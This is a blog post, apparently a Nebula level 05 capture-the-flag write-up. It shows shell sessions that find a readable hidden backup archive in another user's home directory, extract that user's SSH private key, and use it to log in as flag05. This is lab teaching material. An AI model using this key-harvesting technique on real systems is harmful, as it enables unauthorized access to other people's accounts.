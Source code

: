 ```yaml
---
layout: post
title: "Weak permissions"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 05](http://exploit-exercises.com/nebula/level05) Agenda**: "Check the flag05 home directory. You are looking for weak directory permissions"

<center>
	<img src="/images/2015-03-03-weak_permissions/1db3d554c8379640ce16fcc2964b.jpg">
</center>

<br />

{% highlight sh linenos %}
level05@nebula:~$ cd /home/flag05
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     100 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh

level05@nebula:/home/flag05$ cd ./.backup/
level05@nebula:/home/flag05/.backup$ ls -la
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz

level05@nebula:/home/flag05/.backup$ file backup-19072011.tgz
backup-19072011.tgz: gzip compressed data, from Unix, last modified: 
Tue Jul 19 02:38:48 2011

level05@nebula:/home/flag05/.backup$ mkdir /tmp/flag05/
level05@nebula:/home/flag05/.backup$ cd /tmp/flag05/

level05@nebula:/tmp/flag05$ tar -xzvf /home/flag05/.backup/backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
{% endhighlight %}

Therefore the "*weak*" directory was the hidden "*/home/flag05/.backup*" folder. To extract archive we used [tar](http://unixhelp.ed.ac.uk/CGI/man-cgi?tar) utility (line #26). And as result we have public ("*id_rsa.pub*") and private ("*id_rsa*") [ssh](http://en.wikipedia.org/wiki/Secure_Shell) [rsa](http://en.wikipedia.org/wiki/RSA_%28cryptosystem%29) keys. In an [asymmetric key encryption scheme](http://en.wikipedia.org/wiki/Public-key_cryptography), anyone can encrypt messages using the public key, but only the holder of the paired private key can decrypt. Security depends on the secrecy of the private key. Now we can use OpenSSH SSH [client](http://unixhelp.ed.ac.uk/CGI/man-cgi?ssh+1) with usage of identity(private key) to login as "*flag05*" user:

{% highlight sh linenos %}
level05@nebula:/tmp/flag05$ ssh -i ./.ssh/id_rsa flag05@localhost

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
{% endhighlight %}